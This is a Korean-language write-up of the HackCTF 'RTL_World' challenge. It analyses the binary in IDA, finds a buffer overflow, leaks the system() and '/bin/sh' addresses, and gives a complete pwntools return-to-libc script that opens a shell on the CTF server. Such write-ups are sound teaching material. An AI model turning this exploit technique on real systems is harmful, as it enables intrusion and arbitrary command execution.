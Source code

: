 # [Hack CTF] RTL_World 풀이

- IDA로 rtl_world 살펴보기

// main() 함수

![image](https://user-images.githubusercontent.com/59410565/118225176-8f3fac00-b4bf-11eb-91ed-beeef7ac58b8.png)

- dlsym() 함수는 c언어에서 사용하는 함수로 두 번째 인자의 주소를 첫 번째 인자(라이브러리)에서 찾아서 변수에 저장한다. 즉, system의 주소는 v6에 "/bin/sh"의 주소는 s1에 저장된다. 
- case 1을 보아 보호기법이 전혀 존재하지 않는 것 같다.

![image](https://user-images.githubusercontent.com/59410565/118225286-cdd56680-b4bf-11eb-863a-991ac0b01e9d.png)

![image](https://user-images.githubusercontent.com/59410565/118225326-df1e7300-b4bf-11eb-8bfb-be76684b4be4.png)

- case 2는 Get_Money() 함수를 실행시킨다.
- case 3은 gold를 1999만큼 빼고, system()의 주소를 노출(leak)한다.
- case 4는 gold를 2999만큼 빼고, shell("/bin/sh")의 주소를 노출(leak)한다.
- case 5는 buf의 크기보다 더 많이 입력을 받는다. <- buffer overflow!



// Get_Money() 함수

![image](https://user-images.githubusercontent.com/59410565/118225782-b34fbd00-b4c0-11eb-8fcc-e2dd88417edc.png)

![image](https://user-images.githubusercontent.com/59410565/118225826-c6628d00-b4c0-11eb-8c90-790fc7527e81.png)

- gold를 많이 얻기 위해서는 v1에 4를 입력해 주어야 한다.



### 풀이

**[Payload]**

```python
payload = buf(0x8c) + SFP(4) + RET(4)
		= 'A' * (0x8c + 4) + systemAddr + 'BBBB' + shellAddr
```

gold가 많아야 case 3, 4, 5를 실행시킬 수 있기 때문에 반복문을 사용해 gold를 모아 주었다. 그 뒤, system 주소와 "/bin/sh" 주소를 찾아 payload를 완성 시켰다.

```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3010)

for i in range(0, 10):
	p.sendlineafter(">>> ", "2")
	p.sendlineafter("(Job)>>> ", "3")

p.sendlineafter(">>> ", "3")
p.recvuntil("System Armor : ")
sysAddr = p.recvuntil('\n')
sysAddr = int(sysAddr, 16)

p.sendlineafter(">>> ", "4")
p.recvuntil("Shell Sword : ")
binsh = p.recvuntil('\n')
binsh = int(binsh, 16)

p.sendlineafter(">>> ", "5")
p.recvuntil("[Attack] > ")

print hex(sysAddr)
print hex(binsh)

payload = "A" * (0x8c + 4)
payload += p32(sysAddr)
payload += 'BBBB'
payload += p32(binsh)

p.send(payload)
p.interactive()
```



### 결과

![image](https://user-images.githubusercontent.com/59410565/118231144-a6839700-b4c9-11eb-80db-b9632b21578c.png)

![image](https://user-images.githubusercontent.com/59410565/118230688-075e9f80-b4c9-11eb-8450-aff409e001d6.png)

해결!